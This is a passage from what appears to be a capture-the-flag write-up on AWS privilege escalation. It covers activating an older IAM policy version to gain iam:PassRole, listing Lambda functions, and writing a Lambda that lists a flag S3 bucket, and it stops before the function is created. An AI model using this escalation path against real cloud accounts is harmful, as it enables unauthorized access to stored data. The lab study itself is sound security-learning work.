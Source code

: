 This action activated **v1**, granting me the **iam:PassRole** permission that was missing in the default version (**v2**).

---

## Step‑3: Leverage Lambda Permissions

### Check for Existing Lambda Functions

Before creating a new function, I checked if any Lambda functions already existed, as my permissions included various Lambda actions:

```cmd
aws lambda list-functions
```

**Output:**
```json
{
    "Functions": []
}
```

Since no pre-existing functions were found, I proceeded to create one.

### Create and Deploy a Lambda Function

1. **Prepare Lambda Code:**  
   I created a file named `lambda_function.py` with the following content:

   ```python
   import boto3
   import json

   def lambda_handler(event, context):
       try:
           s3 = boto3.client('s3')
           response = s3.list_objects_v2(Bucket='squ1rrel-ctf-flags')
           return {
               "statusCode": 200,
               "body": json.dumps(response, default=str)
           }
       except Exception as e:
           print("Error:", str(e))
           return {
               "statusCode": 500,
               "body": json.dumps({"error": str(e)})
           }
   ```

2. **Package the Function:**  
   Then zip `lambda_function.py` into a ZIP file called `function.zip`
   
  
3. **Create the Lambda Function Using MagicRole:**  
   With the new **iam:PassRole** permission, I created the function:
   